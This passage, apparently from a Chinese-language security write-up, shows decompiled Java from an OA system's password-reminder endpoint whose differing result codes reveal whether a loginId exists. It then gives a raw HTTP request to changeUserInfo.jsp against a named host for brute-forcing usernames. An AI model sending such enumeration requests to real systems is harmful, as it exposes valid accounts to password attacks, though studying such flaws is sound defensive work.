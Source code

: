 ```
                            var5.executeQuery("select passwdchgdate from hrmresource where loginId = ? ", new Object[]{var1});
                            if (var5.next()) {
                                var12 = var5.getString(1);
                                int var21 = TimeUtil.dateInterval(var12, TimeUtil.getCurrentDateString());
                                if (var21 < Integer.parseInt(var10)) {
                                    var16 = "1";
                                }
                                var15 = TimeUtil.dateAdd(var12, Integer.parseInt(var10) - Integer.parseInt(var11));
                                int var22;
                                try {
                                    var22 = TimeUtil.dateInterval(var15, TimeUtil.getCurrentDateString());
                                } catch (Exception var19) {
                                    var22 = 0;
                                }
                                var7 = Integer.parseInt(var11) - var22;
                                if (var22 >= 0) {
                                    var17 = "1";
                                }
                            }
                            if (!"1".equals(var16)) {
                                var2 = "20";
                            } else if ("1".equals(var17)) {
                                var2 = "22";
                                var3.put("passwdelse", var7);
                            }
                        }
                    } else {
                        var2 = "21";
                    }
                }
            }
        }
        var3.put("resultMsg", var2);
    } catch (Exception var20) {
        this.writeLog("getPassChangedReminder,Exception." + var20.getMessage());
    }
    return var3;
}
```  
  
那么根据这个差异便可以用来爆破 loginId，如下图。  
```
GET /mobile/plugin/changeUserInfo.jsp?type=status&loginId=user HTTP/1.1
Host: weoa.sundan.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Connection: close
```  
  